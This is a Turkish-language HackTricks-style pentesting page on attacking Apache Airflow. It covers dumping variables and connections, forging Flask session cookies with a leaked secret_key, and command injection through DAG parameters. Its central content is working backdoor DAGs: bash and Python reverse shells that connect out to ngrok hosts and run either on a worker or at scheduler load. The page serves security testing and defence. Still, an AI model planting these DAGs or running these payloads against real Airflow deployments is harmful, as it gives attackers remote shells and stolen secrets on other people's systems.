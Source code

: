 # Apache Airflow Güvenliği

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Temel Bilgiler

[**Apache Airflow**](https://airflow.apache.org), **veri boru hatlarını veya iş akışlarını düzenlemek ve zamanlamak için bir platform** olarak hizmet vermektedir. Veri boru hatları bağlamında "orchestrasyon" terimi, çeşitli kaynaklardan gelen karmaşık veri iş akışlarını düzenleme, koordine etme ve yönetme sürecini ifade eder. Bu düzenlenmiş veri boru hatlarının temel amacı, işlenmiş ve tüketilebilir veri setleri sağlamaktır. Bu veri setleri, iş zekası araçları, veri bilimi ve makine öğrenimi modelleri gibi birçok uygulama tarafından yaygın olarak kullanılmaktadır ve bunlar büyük veri uygulamalarının işleyişi için temeldir.

Temelde, Apache Airflow, bir şey (olay, cron) **gerçekleştiğinde kodun yürütülmesini zamanlamanıza** olanak tanır.

### Yerel Laboratuvar

#### Docker-Compose

Tam bir apache airflow docker ortamı başlatmak için [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) adresinden **docker-compose yapılandırma dosyasını** kullanabilirsiniz. (Eğer MacOS kullanıyorsanız, docker VM'ye en az 6GB RAM vermeyi unutmayın).

#### Minikube

**Apache Airflow'u çalıştırmanın** kolay bir yolu, **minikube ile çalıştırmaktır**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Yapılandırması

Airflow, yapılandırmasında **hassas bilgileri** saklayabilir veya zayıf yapılandırmalar bulabilirsiniz:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflow'a saldırmaya başlamadan önce **izinlerin nasıl çalıştığını** anlamalısınız:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Saldırılar

#### Web Konsolu Sayım

Eğer **web konsoluna erişiminiz** varsa, aşağıdaki bilgilerden bazılarına veya hepsine erişim sağlayabilirsiniz:

* **Değişkenler** (Özel hassas bilgiler burada saklanabilir)
* **Bağlantılar** (Özel hassas bilgiler burada saklanabilir)
* `http://<airflow>/connection/list/` adresinden erişin
* [**Yapılandırma**](./#airflow-configuration) (Hassas bilgiler, örneğin **`secret_key`** ve şifreler burada saklanabilir)
* **kullanıcılar & roller** listesini görüntüleyin
* **Her DAG'ın kodu** (ilginç bilgiler içerebilir)

#### Değişken Değerlerini Alma

Değişkenler Airflow'da saklanabilir, böylece **DAG'lar** değerlerine **erişebilir**. Bu, diğer platformların gizli bilgilerine benzer. Eğer **yeterli izinleriniz** varsa, bunlara `http://<airflow>/variable/list/` adresinden GUI'de erişebilirsiniz.\
Airflow varsayılan olarak değişkenin değerini GUI'de gösterir, ancak [**şuna**](https://marclamberti.com/blog/variables-with-apache-airflow/) göre, **değerleri** **yıldızlar** olarak görünecek şekilde **değişkenler listesi** ayarlamak mümkündür.

![](<../../.gitbook/assets/image (164).png>)

Ancak, bu **değerler** hala **CLI** aracılığıyla (DB erişiminiz olmalı), **rastgele DAG** çalıştırarak, **API** ile değişkenler uç noktasına erişerek (API'nin etkinleştirilmesi gerekir) ve **hatta GUI'nin kendisiyle** **geri alınabilir!**\
Bu değerleri GUI'den erişmek için sadece **erişmek istediğiniz değişkenleri** seçin ve **Eylemler -> Dışa Aktar** seçeneğine tıklayın.\
Başka bir yol, **gizli değere** ulaşmak için **arama filtrelemesi** kullanarak **bruteforce** yapmaktır:

![](<../../.gitbook/assets/image (152).png>)

#### Yetki Yükseltme

Eğer **`expose_config`** yapılandırması **True** olarak ayarlandıysa, **Kullanıcı** rolünden ve **üstü** **web'deki yapılandırmayı** **okuyabilir**. Bu yapılandırmada, **`secret_key`** görünür, bu da geçerli olan herhangi bir kullanıcının **kendi imzalı çerezini oluşturup başka bir kullanıcı hesabını taklit edebileceği** anlamına gelir.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Arka Kapı (Airflow işçi içinde RCE)

Eğer **DAG'ların kaydedildiği** yere **yazma erişiminiz** varsa, sadece **bir tane oluşturabilirsiniz** ve bu size bir **ters kabuk** gönderecektir.\
Bu ters kabuğun bir **airflow işçi konteyneri** içinde çalıştırılacağını unutmayın:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Arka Kapı (Airflow zamanlayıcısında RCE)

Eğer bir şeyi **kodun kökünde çalıştırılacak şekilde ayarlarsanız**, bu yazının yazıldığı anda, DAG'ın klasörüne yerleştirildikten birkaç saniye sonra **zamanlayıcı tarafından çalıştırılacaktır**.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Oluşturma

Eğer **DAG kümesindeki bir makineyi ele geçirirseniz**, `dags/` klasöründe yeni **DAG scriptleri** oluşturabilirsiniz ve bunlar **DAG kümesindeki diğer makinelere kopyalanacaktır.**

#### DAG Kod Enjeksiyonu

GUI'den bir DAG çalıştırdığınızda ona **argümanlar** geçirebilirsiniz.\
Bu nedenle, eğer DAG düzgün kodlanmamışsa **Komut Enjeksiyonuna karşı savunmasız** olabilir.\
Bu, bu CVE'de olan bir durumdur: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG'lerde komut enjeksiyonları aramaya başlamak için bilmeniz gereken tek şey**, **parametrelerin** **`dag_run.conf.get("param_name")`** kodu ile **erişildiğidir.**

Ayrıca, aynı zafiyet **değişkenlerle** de meydana gelebilir (yeterli ayrıcalıklara sahip olduğunuzda **değişkenlerin değerini GUI'de kontrol edebilirsiniz**). Değişkenler **şu şekilde erişilir**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Eğer bir bash komutu içinde kullanılırlarsa, bir komut enjeksiyonu gerçekleştirebilirsiniz.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
